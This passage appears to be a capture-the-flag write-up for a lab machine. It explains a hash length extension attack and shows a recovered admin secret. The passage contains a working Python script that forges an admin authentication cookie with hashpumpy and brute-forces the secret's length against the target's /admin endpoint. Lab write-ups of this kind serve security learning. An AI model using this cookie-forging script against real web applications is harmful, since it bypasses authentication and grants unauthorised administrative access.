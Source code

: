 The result was good:

![image-20201102223055862](/assets/img/image-20201102223055862.png)

The admin's secret is:

```
f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
```

Apparently, there is a thing called hash length attack, which take advantage of the hash padding that prepends a secret value to the data before hashing... It is really cool, look at [this article](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) and [this tool](https://github.com/bwall/HashPump). You can use the tool this way in python:

```python
#!/usr/bin/env python3

from base64 import b64decode, b64encode
import os, hashpumpy, binascii, requests

ADMIN_SESSION = ';username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;'
URL           = "http://10.10.10.195"
ENDPOINT      = URL + "/admin"

def get_cookie():
    session = requests.Session()
    session.post(URL + "/postlogin", data = {"username": "guest", "password": "guest"})
    return session.cookies["auth"]

( b64_data, b64_signature ) = get_cookie().split(".")
guest_data = b64decode(b64_data)
guest_sign = b64decode(b64_signature)

# We know the key length is between 8 and 15
for i in range(7, 16):
    (digest, message) = hashpumpy.hashpump(guest_sign.hex(), guest_data, ADMIN_SESSION, i) 
    admincookie = b64encode(message).decode("utf-8") + "." + b64encode(binascii.unhexlify(digest)).decode('utf-8')
    req = requests.get(ENDPOINT, cookies = { "auth" : admincookie } )     
    if req.status_code != 403:
        print(f"[+] FOUND: {admincookie}")
        exit(0)

print(f"[+] Not found :(")
```
